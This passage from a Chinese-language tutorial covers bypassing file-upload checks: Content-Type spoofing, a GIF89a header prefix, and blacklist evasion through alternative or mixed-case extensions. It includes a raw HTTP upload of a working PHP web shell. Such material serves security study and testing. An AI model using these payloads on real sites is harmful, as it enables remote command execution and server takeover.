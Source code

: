 可以看到代码对上传文件的文件类型进行了判断，如果不是图片类型，返回错误。


2.2 文件头校验
可以通过自己写正则匹配，判断文件头内容是否符合要求，这里举几个常见的文件头对应关系：

- `.JPEG;.JPE;.JPG，”JPGGraphic File” `
- ` .gif，”GIF 89A”`
- ` .zip，”Zip Compressed”`
- `.doc;.xls;.xlt;.ppt;.apr，”MS Compound Document v1 or Lotus Approach APRfile”`


# 文件上传绕过方式

1. 客户端绕过
    可以利用burp抓包改包，先上传一个gif类型的木马，然后通过burp将其改为asp/php/jsp后缀名即可。
2. 服务端绕过
# 内容绕过
  - 我们可以通过抓包，将content-type字段改为image/gif
```
POST /upload.php HTTP/1.1
TE: deflate,gzip;q=0.3
Connection: TE, close
Host: localhost
User-Agent: libwww-perl/5.803
Content-Type: multipart/form-data; boundary=xYzZY
Content-Length: 155
--xYzZY
Content-Disposition: form-data; name="userfile"; filename="shell.php"
Content-Type: image/gif (原为 Content-Type: text/plain)
<?php system($_GET[‘command‘]);?>
--xYzZY-
```
- 文件头绕过
    在木马内容基础上再加了一些文件信息，有点像下面的结构
    `GIF89a<?php phpinfo(); ?>`

# 黑名单绕过  
- 文件后缀名绕过
    前提：**黑名单校验**
黑名单检测：一般有个专门的 blacklist 文件，里面会包含常见的危险脚本文件。
绕过方法：
（1）找黑名单扩展名的漏网之鱼 - 比如 asa 和 cer 之类
（2）可能存在大小写绕过漏洞 - 比如 aSp 和 pHp 之类
能被解析的文件扩展名列表：
```
jsp jspx jspf
asp asa cer aspx
php php php3 php4
exe exee
```
